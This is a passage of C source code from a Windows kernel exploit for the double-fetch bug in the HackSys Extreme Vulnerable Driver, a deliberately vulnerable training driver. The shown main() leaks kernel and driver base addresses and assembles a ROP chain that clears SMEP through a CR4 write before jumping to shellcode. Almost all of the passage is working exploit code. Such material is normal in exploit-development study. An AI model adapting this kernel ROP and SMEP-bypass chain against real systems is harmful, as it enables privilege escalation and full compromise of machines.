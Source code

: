 ```c
        }
    }
    return 0;
}


int main() {
    SYSTEM_INFO sysInfo;
    GetSystemInfo(&sysInfo);

    printf("HEVD Double Fetch Exploit\n=========================\n");

    printf("[+] Number of CPU cores: %u\n", sysInfo.dwNumberOfProcessors);

    // get a handle to the driver
    hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("[!] Unable to get a handle for the driver: %d\n", GetLastError());
        return 1;
    }

    // allocate the user space buffer
    printf("[+] Allocating memory for user buffer...\n");
    userBuffer = (char*)malloc(sizeof(char*) * BUFFER_SIZE);
    memset((void*)userBuffer, 0x00, BUFFER_SIZE);
    printf("[+] userBuffer: 0x%p\n", userBuffer);

    // get the kernel base address
    QWORD kernelBase = getBaseAddr(L"ntoskrnl.exe");
    printf("[+] Kernel base address: 0x%p\n", kernelBase);

    QWORD hevdBase = getBaseAddr(L"HEVD.sys");
    printf("[+] HEVD base address: 0x%p\n", hevdBase);

    printf("[+] raceWin variable address: 0x%p\n", &raceWon);

    // useful ROP Gadgets
    QWORD ROP_NOP = kernelBase + 0x639131;                          // ret ;
    QWORD INT3 = kernelBase + 0x852b70;                             // int3; ret

    // marker
    QWORD marker = 0xdeadc0dedeadc0de;
    memcpy((void*)(userBuffer + 0x7f8), &marker, 0x8);

    // rop chain
    int index = 0;
    char* offset = userBuffer + 0x800;
    QWORD* rop = (QWORD*)offset;

    // we should set the raceWon variable to 1
    *(rop + index++) = (QWORD)&raceWon;                             // stored on stack (not in rop chain)
    *(rop + index++) = (QWORD)kernelBase + 0x7f700b;                // pop rcx
    *(rop + index++) = (QWORD)0x0070678;
    *(rop + index++) = (QWORD)kernelBase + 0x39e4a7;                // mov cr4, rcx; ret;
    *(rop + index++) = (QWORD)&Shellcode;

    printf("[!] Press enter to continue...");
    getchar();

    PrintTime(TRUE);
```